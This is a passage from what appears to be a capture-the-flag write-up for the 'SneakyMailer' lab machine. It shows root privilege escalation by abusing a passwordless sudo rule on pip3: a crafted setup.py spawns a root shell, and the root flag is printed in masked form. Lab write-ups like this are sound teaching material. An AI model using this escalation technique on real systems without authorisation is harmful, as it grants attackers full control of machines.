    

And that's it! We managed to get the user flag. 

## **Part 3 : Getting Root Access**

Now in order to privesc to the root user we take a look at what the user can run as sudo:
    
    
    low@sneakymailer:~$ sudo -l
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Matching Defaults entries for low on sneakymailer:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
    
    User low may run the following commands on sneakymailer:
        (root) NOPASSWD: /usr/bin/pip3
    
    

and here we see that pip3 can be ran as root without any password, so we can use this [gtfobin](https://gtfobins.github.io/gtfobins/pip/#sudo): 
    
    
    low@sneakymailer:~$ TF=$(mktemp -d)
    low@sneakymailer:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty)  2>$(tty)')" > $TF/setup.py
    low@sneakymailer:~$ sudo /usr/bin/pip3 install $TF
    sudo: unable to resolve host sneakymailer: Temporary failure in name resolution
    Processing /tmp/tmp.D7Gn5vYpTY
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # cat /root/root.txt
    d2XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    
    

And that's it! We managed to get to the root user and get the root flag.

## **Conclusion**

Here we can see the progress graph :

